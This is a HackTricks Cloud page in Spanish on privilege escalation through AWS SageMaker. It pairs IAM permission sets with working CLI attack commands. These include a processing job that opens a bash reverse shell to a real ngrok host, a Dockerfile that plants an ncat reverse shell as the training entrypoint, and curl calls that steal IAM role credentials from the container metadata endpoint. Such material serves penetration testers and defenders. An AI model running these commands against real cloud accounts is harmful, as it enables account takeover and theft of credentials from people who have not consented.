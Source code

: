 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comienza a crear un cuaderno con el rol de IAM para acceder adjunto a él:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La respuesta debe contener un campo `NotebookInstanceArn`, que contendrá el ARN de la nueva instancia de notebook creada. Luego podemos usar la API `create-presigned-notebook-instance-url` para generar una URL que podemos usar para acceder a la instancia de notebook una vez que esté lista:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navega a la URL con el navegador y haz clic en \`Open JupyterLab\` en la parte superior derecha, luego desplázate hacia abajo a la pestaña “Launcher” y en la sección “Other”, haz clic en el botón “Terminal”.

Ahora es posible acceder a las credenciales de metadatos del Rol IAM.

**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Si hay Jupyter **notebooks ya en ejecución** en él y puedes listarlos con `sagemaker:ListNotebookInstances` (o descubrirlos de cualquier otra manera). Puedes **generar una URL para ellos, acceder a ellos y robar las credenciales como se indicó en la técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un processingjob** con un rol de sagemaker adjunto. El atacante puede indicar la definición del contenedor que se ejecutará en una **instancia de cuenta ECS gestionada por AWS**, y **robar las credenciales del rol de IAM adjunto**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el atacante podrá robar las credenciales del rol.

{% hint style="warning" %}
Este escenario es más difícil de explotar que el anterior porque necesitas generar una imagen de Docker que enviará el rev shell o las credenciales directamente al atacante (no puedes indicar un comando de inicio en la configuración del trabajo de entrenamiento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un atacante con esos permisos podrá (potencialmente) crear un **trabajo de entrenamiento de hiperparámetros**, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**.\
_No he explotado debido a la falta de tiempo, pero parece similar a las explotaciones anteriores, siéntete libre de enviar un PR con los detalles de la explotación._

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
